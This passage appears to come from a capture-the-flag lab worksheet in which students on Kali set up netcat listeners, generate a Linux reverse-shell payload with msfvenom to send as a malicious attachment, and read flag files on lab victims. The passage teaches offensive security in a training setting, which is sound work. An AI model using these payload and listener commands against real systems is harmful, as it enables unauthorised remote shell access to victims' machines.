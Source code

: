 ==action: On Kali, start listening for connections, before the document is opened:== 

```bash
nc -lvvp 8080
```

When your victim opens the document, the reverse shell will be triggered connecting back to your Kali system. If you have started the listener, you will be greeted with shell access to the victim.

> Tip: It can take a minute or two for LibreOffice to launch on the victim, so be patient.

## Hint: creating malicious executable programs (malware payload) {#hint:-creating-malicious-executable-programs-(malware-payload)}

==VM: On Kali== ==action: start a netcat listener, and leave this running; your victim will connect back to this:==

```bash
nc -lvvp 4444
```

Where ==edit:KALI_IP_ADDRESS== is the IP address reported from:

```bash
hostname -I
```

==VM: On Kali== ==action: create a reverse tcp payload, by using metasploit:==

```bash
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST==edit:KALI_IP_ADDRESS== LPORT=4444 -f elf -o malware
```

You can send the malware file as a malicious attachment. When a victim opens it, it will connect back to your Kali system with a connection to run shell commands.

## Hint: accessing the flag files {#hint:-accessing-the-flag-files}

> Flag: A flag file can be found in each victim's home directory. Read the flag, by gaining shell access to their system, then running commands.

Once you have a shell connection to the victim you can start running commands such as:

==action: List all files, showing details:==

```bash
ls -la
```

==action: Read the contents of a file named flag in the current directory:==

```bash
cat flag
```

> Flag: Submit the flags to Hacktivity!
